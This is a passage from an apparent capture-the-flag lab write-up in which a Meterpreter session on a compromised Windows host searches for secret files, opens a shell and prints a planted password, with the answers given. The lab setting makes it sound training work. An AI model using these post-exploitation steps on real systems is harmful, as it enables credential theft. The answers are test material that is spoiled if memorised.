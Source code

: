 ```console
meterpreter > search -f "secret*"
Found 2 results...
    c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt (35 bytes)
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\secrets.txt.lnk (1045 bytes)
meterpreter >
```
{: .nolineno }

Answer : c:\Program Files (x86)\Windows Multimedia Platform

### What is the Twitter password revealed in the "secrets.txt" file?

Going to the location then print the file content :

```console
meterpreter > shell
Process 3408 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\Program Files (x86)\Windows Multimedia Platform
cd c:\Program Files (x86)\Windows Multimedia Platform

c:\Program Files (x86)\Windows Multimedia Platform>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of c:\Program Files (x86)\Windows Multimedia Platform

07/30/2021  08:33 PM    <DIR>          .
07/30/2021  08:33 PM    <DIR>          ..
07/30/2021  07:44 AM                35 secrets.txt
09/15/2018  07:12 AM            40,432 sqmapi.dll
               2 File(s)         40,467 bytes
               2 Dir(s)  15,242,125,312 bytes free


c:\Program Files (x86)\Windows Multimedia Platform>type secrets.txt
type secrets.txt
My Twitter password is KDSvbsw3849!
```
{: .nolineno }

Answer : KDSvbsw3849!

### Where is the "realsecret.txt" file located? 

```console
meterpreter > search -f "*secret.txt*"
Found 1 result...
    c:\inetpub\wwwroot\realsecret.txt (34 bytes)
```
{: .nolineno }
